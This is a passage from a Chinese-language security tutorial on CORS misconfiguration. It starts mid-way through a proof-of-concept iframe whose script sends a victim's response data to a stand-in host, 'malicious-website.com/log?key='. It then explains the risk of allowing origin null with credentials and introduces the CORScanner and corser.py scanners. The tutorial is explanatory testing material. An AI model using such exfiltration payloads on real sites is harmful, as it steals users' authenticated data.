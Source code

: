     function reqListener() {  
    location='malicious-website.com/log?key='+this.responseText;  
    };  
    </script>"></iframe>  
    

  

这就意味着任何配置有`Access-Control-Allow-Origin: null`和`Access-Control-Allow-
Credentials:true`的网站等同于没有浏览器SOP的保护，都可以被其他任意域以这种方式读取内容。

## 4|4CORS漏洞的自动化扫描

  

github上提供了一个关于扫描CORS配置漏洞的脚本  
https://github.com/chenjj/CORScanner  
CORScanner是一个python工具，旨在发现网站的CORS错误配置漏洞。它可以帮助网站管理员和渗透测试人员检查他们针对的域/
URL是否具有不安全的CORS策略。  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210811182652.png)  
但是这个好像不能扫描特定接口的。

https://github.com/dienuet/crossdomain

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210811182653.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210811182654.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210811182656.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210811182657.png)

Gen Poc

  * python corser.py -poc GET

  

  * ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210811182658.png)

  

PS D:\crossdomain-master> python corser.py -poc GET

  

  ____ ___  ____  ____  _____ ____

 / ___/ _ \|  _ \/ ___|| ____|  _ \

| |  | | | | |_) \\___ \|  _| | |_) |

| |__| |_| |  _ < ___) | |___|  _ <

 \\____\\___/|_| \\_\\____/|_____|_| \\_\    Author: --==dienpv==--

  

  